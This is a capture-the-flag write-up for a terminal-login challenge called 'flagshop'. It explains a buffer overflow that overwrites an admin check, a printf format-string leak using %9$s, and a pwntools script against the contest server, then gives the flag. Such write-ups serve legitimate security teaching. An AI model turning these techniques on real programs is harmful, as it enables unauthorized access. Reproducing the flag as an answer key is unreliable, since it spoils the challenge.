







### Intro
This challenge features a terminal where a user creates an account by entering a username and password, and then issues commands to the terminal. There are two commands - accessing the admin panel, and printing user info. The admin panel can be used to gain access to the flag, but it is locked behind admin permissions. Therefore, the solution to this challenge involves using buffer overflow to gain admin permissions, and then using a format string vulnerability to print the flag.

### Decompilation and Analysis
The main function shows that the program creates a user account, and then takes in user input to execute 1 of 2 commands. The command "1" shows the admin panel.



`load_panel` handles the admin panel. The program checks if a test value != 0 to see if the user has admin permissions; if so, the program reads the flag file. Note that the test value is at a memory offset from the user input buffer (`param_1` is actually `local_28` which holds account info). Also, note that after reading the flag, `load_panel` prints the username as inputted in `create_account`.



As expected, `read_flag` puts the flag into memory.



### Buffer Overflow
Getting admin permissions is simple - all that is needed to do is overwrite the test value located after the input buffer.
```
input_buf: "pronouns" input
input_buf+0x8: "username" input
input_buf+0x18: admin test value
```

Therefore, inputting a "pronouns" string that is long enough will overwrite the admin test value and allow access to the admin panel.



A string of length=34 does the trick.





However, accessing the admin panel does not print the flag - but it does load it into memory.

### Format String Vulnerability
The flag is loaded into program memory, but the admin panel only prints the username string. Printing is done using `printf`, so it is possible to use a format string in the user input to arbitrarily print from memory. `%s` will print a string from memory.

Therefore, `%9$s` will print the flag string from memory.

Exploit script:
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./flagshop')

padding1 = b'p' * 32
formatstr = b'%9$s'
padding2 = b'a' * 32
payload = b''.join([padding1, formatstr, padding2])

p = remote('2024.sunshinectf.games', 24001)
p.recvlines(10)
p.sendline(b'test')
p.recvline()
p.sendline(payload)
p.interactive()

```
Note that the actual buffer overflow + FSV payload is written to the "pronouns" field, but this works because overflowing "pronouns" overwrites "username".

Launching the exploit:



### Flag
sun{c@n_st1ll_r3@d_off_the_he@p_fr0m_st@ck_po!nters!}
